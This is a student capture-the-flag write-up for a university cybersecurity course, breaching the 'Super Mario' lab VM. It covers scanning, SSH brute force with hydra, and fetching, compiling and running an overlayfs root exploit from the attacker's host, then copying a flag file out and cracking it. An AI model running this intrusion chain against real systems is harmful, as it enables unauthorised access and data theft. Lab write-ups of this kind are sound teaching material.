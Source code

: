 ## Sant Alice - Cybersecurity Course 2024 - UniTS

# Hack the Super Mario 


## Introduction
The Super Mario challenge is a penetration testing exercise designed to simulate a real-world hacking scenario. There are hidden flags embedded within a specially configured virtual machine (VM). To breach this VM, a Kali linux virtual machine is used as the attacking machine.
This report outlines the step-by-step process followed to breach the target VM, emphasizing the tools and techniques used.

## Technologies and tools used

1. **VirtualBox**   
    This demo uses two virtual machines installed on VirtualBox:
    * **attacking machine**: Kali Debian distribution
    * **target machine**: SuperMario Ubuntu distribution
    
    Both VM are configured to belong to the same network.  

2. **Technologies**   
    * **nmap**: network exploration tool for security auditing
    * **dirb**: web content scanner to find hidden directories and files
    * **john the ripper**: password cracking tool
    * **hydra**: fast and flexible login cracker
    * **ssh**: secure Shell for secure remote login
    * **gcc**: GNU Compiler Collection for compiling exploits
    * **wget**: network downloader for retrieving files from the web
    * **fcrackzip**: fast password cracker for zip files

3. **Configuration**  
    Before starting the local package database is refreshed and the latest versions of available packages are installed on Kali. 

    `apt-get update`  
    `apt-get upgrade`  

    Many of the necessary tools are already included in Kali distribution, but it was necessary to install apache2 (web server), ufw (for managing firewall rules) and fcrackzip.

    `apt-get install apache2`  
    `apt-get install ufw`  
    `ufw allow http`    
    `apt-get install fcrackzip`  


## Implementation

First, both virtual machines are started.

1. **Asset discovery**  
    To understand which network Kali belongs to, the `ifconfig` command is used, revealing that Kali has an IP address of '10.0.2.7'.
     

2. **Enumeration with nmap**   
    The first step in any penetration test is enumeration. Nmap is used to discover open ports and services on the target VM, so we scan our network.

    `nmap 10.0.2.0/24`   

    We discover open ports 22 (SSH) and 8180 (HTTP).

    <p align="center">
    <img src="images/1.png" >
    </p>

3. **Attempt to access the web service**  
    By navigating to 'http://10.0.2.5:8180' in the browser, the page displays "Welcome to nginx". This response indicates that the server is running the nginx web server software but has not been configured with any specific web content or applications to serve. Therefore, more information gathering is necessary to continue the penetration test.

    <p align="center">
    <img src="images/9.png" >
    </p>

4. **Directory bruteforce with dirb**  
    After identifying the HTTP service, a directory brute-force attack is conducted using dirb to find hidden files and directories.  

    `dirb http://10.0.2.5:8180 /usr/share/wordlists/dirb/big.txt`  

    We discover a file named 'vhosts'.

    <p align="center">
    <img src="images/2.png" >
    </p>

5. **Exploring virtual hosts**  
    We explore 'vhosts' by navigating to 'http://10.0.2.5:8180/vhosts'. This reveals a server name (mario.supermariohost.local), which is then mapped in the local hosts file using the nano editor to facilitate further exploration.

    `cd /etc`  
    `sudo nano hosts`  
    `# Add line: "10.0.2.5 mario.supermariohost.local"`
  
    After adding the hostname, we verify the addition with `cat hosts`.     

    <p align="center">
    <img src="images/4.png" >
    </p>

     Visiting 'mario.supermariohost.local' in the browser displays a Mario browser game that is not functional.

6. **SSH enumeration and dictionary creation**  
    Since ports 22 and 8180 were open and we didn't get much information from the enumeration of port 8180, we now move towards port 22 for SSH enumeration. Using knowledge of famous Super Mario characters (mario, luigi, peach, toad, yoshi), a dictionary of potential usernames is created to retrieve credentials to log in to the SSH server (brute force). We then save the created text file as 'user'.
    
    <p align="center">
    <img src="images/5.png" >
    </p>
    
    John the ripper is then used to generate a password list.

    `john --wordlist:user --rules --stdout > pass`  

    The '--rules' option enables wordlist rules, and '--stdout' specifies that the generated passwords should be outputted with a fixed length. These passwords are then saved to a file named 'pass' on the desktop.


7. **Password cracking with hydra**  
    Using the username dictionary saved as 'user' and the password dictionary generated by john the ripper saved as 'pass', we needed to find the correct combination to log in via SSH. To accomplish this, we used Hydra to brute force the SSH login using the generated lists of usernames and passwords.

    `hydra -L user -P pass 10.0.2.5 ssh`  

    We found one valid credential 'luigi:luigi1'.

    <p align="center">
    <img src="images/6.png" >
    </p>

8. **SSH login and initial access**  
    With the cracked credentials, an SSH session is established to gain access to the VM, and we log in as user 'luigi'.  

    `ssh luigi@10.0.2.5`   
    `# Password: luigi1`

9. **Privilege escalation**  
    We discover that the target system is running Linux kernel version 3.13.0. There is a known exploit for the 3.13.0 overlayfs local root in Ubuntu. We download it inside Kali Linux from 'https://www.exploit-db.com/exploits/37292/', rename the file to 'mario.c', and move it to the '/var/www/html' directory. In this way we can download the file in the target machine through apache2.

    `sudo mv /home/kali/Downloads/mario.c /var/www/html`

    Inside the target system we download, compile, and execute the exploit to escalate privileges to root.

    `wget http://10.0.2.7/mario.c`   
    `gcc mario.c -o mario`   
    `./mario`

    We have obtained root privilege (we verify it with the `id` command), and inside the root directory, there is a zip file named 'flag.zip' that is the file we were searching for.
      
    `cd /root`

    We give full permissions (read, write, and execute) to everyone for 'flag.zip' to move it to the '/var/www/html' directory. As before this is done to download the file in Kali machine through nginx.

    `chmod 777 flag.zip`   
    `cp /root/flag.zip /var/www/html`

    <p align="center">
    <img src="images/7.png" >
    </p>

10. **Downloading and cracking the flag zip**   
    Finally from Kali we download the file 'flag.zip' from the URL 'http://10.0.2.5:8180/' and save it.

    `wget http://10.0.2.5:8180/flag.zip`
    
    We attempt to crack the password of the 'flag.zip' file using a list of common passwords provided in 'rockyou.txt'. The result shows that the password is 'ilovepeach'.
      
    `fcrackzip flag.zip -D -P /user/share/wordlist/rockyou.txt -u`

    We access the content of the zip file which include the 'flag.txt' file and then read the flag contained within.

    `unzip flag.zip`
    `cat flag.txt`

    <p align="center">
    <img src="images/8.png" >
    </p>

## Conclusions
The Super Mario cybersecurity challenge provided an exciting and educational experience, simulating real-world penetration testing scenarios. By using various tools and techniques such as nmap, dirb, john the ripper, hydra, wget, and local exploits, we were able to successfully breach the VM, escalate privileges, and retrieve one hidden flag. This exercise demonstrated the importance of thorough enumeration, effective use of password cracking tools, and leveraging known vulnerabilities for privilege escalation in cybersecurity practices.

## Future developments
There are multiple ways to hack this machine, and an interesting future goal would be to explore all possible methods to gain access. Additionally, the ultimate objective should be to retrieve all the passwords of all the users on this machine, further enhancing our understanding and skills in comprehensive penetration testing.

## References
https://www.hackingarticles.in/hack-super-mario-ctf-challenge/